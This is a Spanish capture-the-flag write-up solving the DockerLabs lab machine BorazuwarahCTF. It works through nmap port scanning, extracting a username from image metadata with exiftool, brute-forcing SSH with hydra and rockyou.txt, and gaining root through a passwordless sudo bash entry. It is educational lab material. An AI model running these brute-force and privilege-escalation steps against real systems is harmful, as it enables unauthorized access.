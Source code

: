 #MAQUINA #DOCKERLABS #MUY_FACIL
#EXIFTOOL #STEGHIDE
<hr>

# RECONOCIMIENTO

Vamos a resolver **BorazuwarahCTF** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 12:29 CET
Initiating ARP Ping Scan at 12:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:29, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:29, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-22 12:29:31 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 12:30 CET
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesnt have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds



```

   ```bash

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 12:31 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos que hay un huevo sorpresa. 
Intentamos ver si esconde algo, para ello nos la traemos con wget.

   ```bash
wget "http://172.17.0.2/imagen.jpeg"
```

Probamos con **steghide** con passphrase vacío:

   ```bash
   
steghide extract -sf imagen.jpeg 
Enter passphrase: 
wrote extracted data to "secreto.txt".

cat secreto.txt 
Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!

```

Probamos con **exiftool**:
   ```bash
   
exiftool imagen.jpeg  
ExifTool Version Number         : 13.00
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 18:10:18+02:00
File Access Date/Time           : 2024:11:22 12:34:44+01:00
File Inode Change Date/Time     : 2024:11:22 12:34:37+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207

```

Vemos que hay un usuario -> **borazuwarah**
# EXPLOTACION

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-22 12:57:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-22 12:58:03

```
**usuario : borazuwarah**
**contraseña: 123456**

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
borazuwarah@bcb5d5357f9b:~$ sudo -l
Matching Defaults entries for borazuwarah on bcb5d5357f9b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on bcb5d5357f9b:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash

```

Vemos **bash** con permisos SUDO :
   ```bash
borazuwarah@bcb5d5357f9b:~$ sudo bash -p
root@bcb5d5357f9b:/home/borazuwarah# whoami
root
root@bcb5d5357f9b:/home/borazuwarah# 
```

**YA ESTAMOS COMO ROOT.**
